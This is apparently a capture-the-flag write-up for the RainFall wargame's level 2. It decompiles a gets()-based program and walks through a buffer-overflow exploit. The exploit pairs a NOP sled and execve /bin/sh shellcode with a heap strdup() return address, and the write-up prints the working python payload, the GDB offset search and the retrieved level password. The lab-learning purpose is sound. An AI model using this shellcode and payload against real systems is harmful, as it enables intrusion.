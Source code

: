 # LEVEL 2

To start, I will take a look on our program by using GDB, Ghibra and ltrace.

Let's see the decompilated program *(by using Ghibra)*.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>

char	buffer[76];

void
p (void) {
	void	*ret_addr;

	fflush(stdout);
	gets(buffer);

	ret_addr = __builtin_ret_addr(0);
	if (((unsigned int)ret_addr & 0xb0000000) == 0xb0000000) {
		printf("(%p)\n", ret_addr);
		exit(1);
	}
	puts(buffer);
	strdup(buffer);
	return ;
}

int
main (void) {
	p();
	return (0);
}
```

Before start we can see that no function calls the ```system()``` or an ```execve()``` so we have to do a **ShellCode injection**. A shell code injection is technique that consists in changing a function return address or a function call by the address of our buffer which contains a executable code. Here our executable code is **ShellCode** that is an ASM code translated in bytecode who launch a shell terminal. We just need to know where inject it.

Our program use ```gets()``` so we can try to use a **Buffer Overload Attack**, but the ```if``` condition checks if the p return address is on the heap and not on the stack. So our return address must be on the heap.

We used GDB and Ghibra but not ltrace, let's use it.

```shell
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7a4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                              = 0
gets(0xbffff6ac, 0, 0, 0xb7e5ec73, 0x80482b5AAAAAAAA
)                   = 0xbffff6ac
puts("AAAAAAAA"AAAAAAAA
)                                                = 9
strdup("AAAAAAAA")                                              = 0x0804a008
+++ exited (status 8) +++
```

After many launched of ltrace, ```strdup()``` return address never changed, so we can understand that our function doesn't have ASLR *(Address Space Layout Randomization)* and the return address is on the head.

So we will use the ```strdup()``` address to copy our shellcode, then we will change the return value of ```strdup()```, Like this the return address will point to our shellcode instead of ```main()```.

### How to create a Payload ?

#### Find a ShellCode.

We can easily find a shellcode on internet with [this site](https://shell-storm.org/shellcode/)

#### My shellcode :

`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

#### Find EIP :

We can easily find the EIP by using this [EIP Tools](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

```shell
level2@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" > /tmp/fill_buff
level2@RainFall:~$ gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r < /tmp/fill_buff
Starting program: /home/user/level2/level2 < /tmp/fill_buff
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

#### Create the exploit

The exploit recipe is : `X * "\x90" + ShellCode(size = 21) + Y "\90" + "strdup() return address"` - `TOTAL SIZE = EIP SIZE = 80`

### Payload

`python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*39 + "\x08\xa0\x04\x08"' > /tmp/payload`

Now we can try to load the payload inside our program.

```shell
level2@RainFall:~$ (cat /tmp/payload; echo "cat /home/user/level3/.pass") | ./level2
��������������������j
                     X�Rh//shh/bin��1�̀����������������������������������
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```





